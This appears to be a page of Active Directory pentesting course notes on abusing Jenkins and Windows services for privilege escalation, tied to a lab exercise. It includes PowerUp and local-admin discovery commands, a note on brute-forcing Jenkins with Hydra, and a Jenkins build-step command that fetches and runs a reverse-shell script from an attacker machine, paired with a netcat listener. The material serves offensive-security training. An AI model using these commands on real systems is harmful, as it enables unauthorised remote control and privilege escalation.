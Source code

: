 # 5.1.1 - Feature Abuse

## Feature Abuse

Some _functionality_ of a web site, possibly even security _features_, may be _abused_ to cause unexpected behavior.

On Windows, some enterprise applications need either Administrative privileges or **SYSTEM privileges**, making them a wonderful avenue for privilege escalation.

Others techniques are presente here here: [Windows Privilege Escalation](https://dev-angelist.gitbook.io/windows-privilege-escalation)

### Jenkins

An older version of Jenkins (before 2.x) is an example of vulnerable enterprise application.

This versions contains numerous plugins, and if you've Admin access, you can go to: http://\<jenkins\_server>/script and execute custom scripts via console.

Without Admin access is possible to add or edit build steps in the build configuration, eg. adding "Execute Windows Batch Command" and enter: `powershell -c <command>` that permits to download and execute scripts.

### Example of usage

Exploit a service and elevate privileges to local administrator

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
#Evaluate services with "CanRestart: True" and "Check: Modifiable Services" or "Unquoted Service Paths"
#Utilize the AbuseFunction command indicated
```

Identify a machine in the domain where student has local administrative access

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
#It display the machine in the domain where student has local admin access
```

Using privileges of a user on Jenkins \<ip:8080>, get admin privileges

```bash
#This Jenkins vs has password policy without a restrictive rule, than can be potentially abused via brute force (Hydra)
#Go to <ip:8080> -> Dashboard -> Modify an existing project -> Configure -> Add build step (write the following command)->
powershell iex (iwr -UseBasicParsing http://<attacker_machine>/Invoke-PowershellTcp.ps1);power -Reverse -IPAddress <attacker_machine> -Port 443
#Execute Windows batch command -> Save
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443 #On attacker machine go in listening mode on port 443
#Run HFS.exe if the connection is blocked
$env:username #Obtain user name
$env:computername
ls env: #Obtain USERDNSDOMAIN
```

Refers to [Learning Object 5](../../lab/5-learning-object-5.md) lab
